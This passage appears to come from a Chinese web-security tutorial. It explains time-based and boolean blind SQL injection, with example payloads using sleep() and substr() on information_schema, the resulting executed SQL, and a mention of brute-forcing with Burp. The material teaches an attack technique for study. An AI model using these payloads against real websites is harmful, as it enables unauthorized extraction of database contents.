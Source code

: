 实际执行的SQL语句为：
```
SELECT * FROM users WHERE id='1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(5))
```

**分析：**`id='1'`为真，紧接着执行后面的if语句判断security数据库中的users表的第一个字段的第一个字符是不是是不是u，是则立即返回结果，不是则延迟5秒返回结果。

同上面一样可以使用BP爆破
![image.png](../../_img/02-Web安全/01-基础知识/1664342327536-c5f27b8e-8b87-444e-8593-ad7d0362f258.png)

**2.1.2、布尔盲注**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`select aaa,bbb,ccc from tests where id = '$id'  `

当我们输入：
```
http://xmtxsec.top/test.php/?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u'--+
```

实际执行的SQL语句为：
```
select aaa,bbb,ccc from tests where id = '1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u'
```

**分析：**`id = '1'`为真，紧接着判断security数据库里的users表的第一个字段的第一个字符是不是u，是则页面返回正常，不是则页面返回错误。
![image.png](../../_img/02-Web安全/01-基础知识/1664343231352-c905bb31-1ac2-4b46-987e-8c1af7dc4373.png)